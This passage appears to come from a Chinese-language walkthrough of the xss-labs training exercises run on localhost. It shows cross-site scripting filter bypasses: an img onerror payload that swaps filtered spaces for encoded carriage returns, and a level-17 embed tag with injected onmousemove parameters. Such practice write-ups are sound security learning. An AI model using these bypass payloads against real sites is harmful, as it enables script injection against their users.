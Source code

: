 发现把空格全部都过滤了 尝试编码绕过？

```php
?keyword=<img%0Dsrc=x%0Donerror=alert(1)> //%0d为回车(换行符)
```

成功弹窗

------

## less 17

```php
http://localhost/xss-labs-master/level17.php?arg01=%20onmousemove&arg02=alert(1)
<embed src="xsf01.swf?" onmousemove="alert(1)" width="100%" heigth="100%">
```

不知道为什么不弹窗 整体就是利用空格把1的参数顶到外面 2的参数和1拼接 形成一个新的参数


